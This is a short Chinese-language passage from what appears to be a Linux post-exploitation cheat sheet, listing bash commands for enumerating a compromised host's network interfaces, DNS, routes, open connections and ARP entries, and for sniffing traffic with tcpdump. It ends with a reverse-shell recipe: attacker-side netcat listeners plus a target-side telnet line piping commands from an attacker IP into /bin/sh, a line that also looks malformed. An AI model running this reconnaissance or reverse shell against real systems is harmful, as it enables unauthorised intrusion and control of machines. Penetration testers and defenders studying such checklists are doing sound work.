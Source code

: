 系统具有哪些NIC？它是否连接到另一个网络？

```bash
/sbin/ifconfig -a
cat /etc/network/interfaces
cat /etc/sysconfig/network
```

查看网络配置设置，确定关于该网络的信息，DHCP服务器？DNS服务器？网关？

```bash
cat /etc/resolv.conf
cat /etc/sysconfig/network
cat /etc/networks
iptables -L
hostname
dnsdomainname
```

其他哪些用户和主机正在与系统通信？

在这种情况下，用户正在运行某些只能从该主机获得的服务。我们无法从外部连接到服务。它可能是开发服务器，数据库或其他任何东西。这些服务可能以root用户身份运行， 或者其中可能存在漏洞。

```bash
# Linux 
netstat -anlp 
netstat -ano
```

```bash
lsof -i
lsof -i :80 grep 80 /etc/services
netstat -antup 
netstat -antpx
netstat -tulpn
chkconfig --list chkconfig --list | grep 3:on
last
w
```

IP和/或MAC地址

```bash
arp -e
route
/sbin/route -nee
```

数据包嗅探是否可能？可以看到什么？

```bash
tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21
```

注意：tcpdump tcp dst \[ip\] \[端口\]和tcp dst \[ip\] \[端口\]

我们有shell吗？

```bash
nc -lvp 4444 # Attacker. Input (Commands)
nc -lvp 4445 # Attacker. Ouput (Results)
telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445 # On the targets sys
```
